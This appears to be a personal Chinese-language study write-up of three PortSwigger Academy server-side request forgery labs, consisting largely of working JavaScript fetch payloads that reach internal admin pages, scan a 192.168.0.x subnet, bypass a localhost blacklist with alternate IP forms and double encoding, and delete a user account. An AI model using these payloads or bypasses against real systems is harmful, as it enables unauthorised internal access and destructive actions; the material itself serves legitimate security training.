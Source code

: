 ```yaml
---
title: PortSwigger Server-side request forgery (SSRF)
description: PortSwigger Server-side request forgery (SSRF)
---
```


## Lab: Basic SSRF against the local server

| Dimension | Description                                                                |
| --------- | -------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/ssrf#ssrf-attacks-against-the-server  |
| Lab       | https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost |

先

```js
fetch(
  "https://0a7d00ac03b61bf181870c00004b0025.web-security-academy.net/product/stock",
  {
    headers: {
      "content-type": "application/x-www-form-urlencoded",
    },
    body: "stockApi=http://localhost/admin",
    method: "POST",
    mode: "cors",
    credentials: "include",
  },
);
```

之後

```js
fetch(
  "https://0a7d00ac03b61bf181870c00004b0025.web-security-academy.net/product/stock",
  {
    headers: {
      "content-type": "application/x-www-form-urlencoded",
    },
    body: `stockApi=${encodeURIComponent("http://localhost/admin/delete?username=carlos")}`,
    method: "POST",
    mode: "cors",
    credentials: "include",
  },
);
```

是說我從來沒看過有人會把 API 設計成這樣 `stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=2&storeId=1`，然後 Lab 通關條件是要把 admin 的帳號刪掉，也太狠了吧（？而且只要一個 GET API 就能直接刪帳號，真的是有夠牛掰的設計（x

## Lab: Basic SSRF against another back-end system

| Dimension | Description                                                                           |
| --------- | ------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/ssrf#ssrf-attacks-against-other-back-end-systems |
| Lab       | https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system       |

寫一隻 for 迴圈來掃描

```js
let shouldBreak = false;
for (let i = 1; i <= 255; i++) {
  if (shouldBreak) break;
  setTimeout(
    () => {
      if (shouldBreak) return;
      fetch(
        "https://0ab200a80355f0ce80a4712e008c00b9.web-security-academy.net/product/stock",
        {
          headers: {
            "content-type": "application/x-www-form-urlencoded",
          },
          body: `stockApi=${encodeURIComponent(`http://192.168.0.${i}:8080/admin`)}`,
          method: "POST",
          mode: "cors",
          credentials: "include",
        },
      ).then((res) => {
        if (res.status === 200) {
          shouldBreak = true;
          console.log(i);
        }
      });
    },
    (i - 1) * 500,
  );
}
```

在 138 的時候停下

```js
fetch(
  "https://0ab200a80355f0ce80a4712e008c00b9.web-security-academy.net/product/stock",
  {
    headers: {
      "content-type": "application/x-www-form-urlencoded",
    },
    body: `stockApi=${encodeURIComponent(`http://192.168.0.138:8080/admin/delete?username=carlos`)}`,
    method: "POST",
    mode: "cors",
    credentials: "include",
  },
);
```

又要開始刪人家的帳號了XDD

## Lab: SSRF with blacklist-based input filter

| Dimension | Description                                                                       |
| --------- | --------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/ssrf#ssrf-with-blacklist-based-input-filters |
| Lab       | https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter          |

先嘗試

```js
fetch(`${location.origin}/product/stock`, {
  headers: {
    "content-type": "application/x-www-form-urlencoded",
  },
  body: `stockApi=${encodeURIComponent(`http://localhost/admin`)}`,
  method: "POST",
  mode: "cors",
  credentials: "include",
});
```

=> `"External stock check blocked for security reasons"`

之後嘗試

```js
encodeURIComponent(`http://localhost`);
encodeURIComponent(`/admin`);
encodeURIComponent(`http://localhost/ADMIN`);
encodeURIComponent(`2130706433/admin`);
encodeURIComponent(`http://2130706433/admin`);
encodeURIComponent(`https://2130706433/admin`);
encodeURIComponent(`https://localhost/admin`);
encodeURIComponent(`http://127.1/admin`);
```

=> `"External stock check blocked for security reasons"`

最終嘗試

```js
encodeURIComponent(`http://127.1/%61dmin`);
```

然後就可以來刪帳號

```js
fetch(`${location.origin}/product/stock`, {
  headers: {
    "content-type": "application/x-www-form-urlencoded",
  },
  body: `stockApi=${encodeURIComponent(`http://127.1/%61dmin/delete?username=carlos`)}`,
  method: "POST",
  mode: "cors",
  credentials: "include",
});
```

要注意 [encodeURIComponent](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/encodeURIComponent#description) 不會針對 `A–Z a–z 0–9 - _ . ! ~ * ' ( )` 去做 encode，所以我們可以寫一個 function 來達成

```js
function encodeSingleStringToURIComponent(str) {
  return "%" + str.charCodeAt(0).toString(16);
}
```

看來我對

- URL Encode 的機制
- IP 的不同表達方式
  還不夠了解，之後需要來補一下這方面的知識

## 參考資料

- https://portswigger.net/web-security/ssrf
